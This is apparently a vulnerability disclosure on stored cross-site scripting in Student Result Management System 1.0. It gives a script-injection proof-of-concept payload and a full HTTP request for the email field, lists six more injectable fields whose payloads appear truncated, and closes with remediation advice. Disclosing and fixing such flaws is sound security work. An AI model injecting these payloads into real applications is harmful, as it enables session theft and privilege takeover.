


## Overview

The [Student Result Management System 1.0](https://www.sourcecodester.com/srms-makumbusho) is vulnerable to multiple stored cross site scripting vulnerabilities. 


Stored Cross-Site Scripting (XSS) is a type of injection attack where malicious scripts are permanently stored on a target server, such as in a database, comment field, or user profile. When other users retrieve the stored data in their browser, the malicious script is executed in their context, potentially leading to session hijacking, defacement, redirection, or theft of sensitive information.

The application contains the following 4 roles:

* Administrator
* Academic Teacher
* Teacher
* Student


While logged in as Academic Teacher role, the following fields are vulnerable to stored cross site scripting vulnerabilties:

## Proof of Concept

### Field 1: Email Field in Profile Setting

as academic teacher role, the email field in profile setting is vulnerable to stored XSS vulnerability, by injecting the POC payload provided below, an alert box is noticed. 

#### Proof of concept (POC) payload: `bwiremunyweki@gmail.com"> <script>alert(1)</script><x`

HTTP Request:
```
POST /srms_0/srms/script/academic/core/update_profile HTTP/1.1
Host: 172.16.152.146
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 104
Origin: http://172.16.152.146
Connection: keep-alive
Referer: http://172.16.152.146/srms_0/srms/script/academic/profile
Cookie: PHPSESSID=npck4om4s74l5ln3rvqs6al199; __SRMS__logged=1; __SRMS__key=FYVLJRHI40OZLBE38SBL
Upgrade-Insecure-Requests: 1
Priority: u=0, i

fname=fname&lname=name&email=bwiremunyweki@gmail.com">+<script>alert(1)</script><x+&gender=Male&submit=1
```
HTTP Response:
```
HTTP/1.1 302 Found
Date: Thu, 05 Jun 2025 11:02:01 GMT
Server: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
X-Powered-By: PHP/8.2.12
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
location: ../profile
Content-Length: 0
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```


When administrator account visits the Academic Account page, the proof of concept payload will also be executed: 


This enables academic teacher account to steal administrator's cookie session and gain administrative privilege on the application.


### Field 2: Academic Term field in Academic Terms Page

as academic teacher role, add a new academic term and inject the following POC payload to academic term field:

#### Proof of concept (POC) payload: `">`




### Field 3: Class Name field in Classes Page

as academic teacher role, add a new class and inject the following POC payload in class name field:

#### Proof of concept (POC) payload: `">`


### Field 4: Subject field in Subjects Page

as academic teacher role, add a new subject and inject the following POC payload in subject field:

#### Proof of concept (POC) payload: `">`


### Field 5: Remark field in Grading System Page

as academic teacher role, add a new grade and inject the following POC payload in remark field:

#### Proof of concept (POC) payload: `">`


### Field 6: Division field in Division System Page

as academic teacher role, add a new division and inject the following POC payload in division field:

#### Proof of concept (POC) payload: `">`


### Field 7: Title field in Announcement Page

as academic teacher role, add a new announcement and inject the following POC payload in title field:

#### Proof of concept (POC) payload: `">`




 
When students or teachers logged into the application, the XSS payload will also be triggered:


## Recommendation

- #### Output Encoding (Primary Defense):

  * Encode untrusted data before rendering it into the browser.

  * HTML Encoding for HTML body.

  * URL Encoding for query parameters.


- #### Input Validation & Sanitization:

  * Use allowlists (positive validation) to accept only expected input formats.

  * Strip dangerous characters/tags using libraries like DOMPurify (JS), OWASP Java HTML Sanitizer (Java), or HTMLPurifier (PHP).

- #### Content Security Policy (CSP):

  * Deploy a strong CSP to reduce the risk of script execution even if XSS exists.

  * Avoid unsafe-inline and use nonces or hashes for scripts.

- #### HTTP-Only and Secure Cookies:

  * Use the HttpOnly flag to prevent JavaScript access to cookies.

  * Use the Secure flag to ensure cookies are transmitted over HTTPS.

- #### Web Framework Protections:

  * Leverage built-in XSS protections in frameworks (e.g., React auto-escapes output, Django's templating engine escapes by default).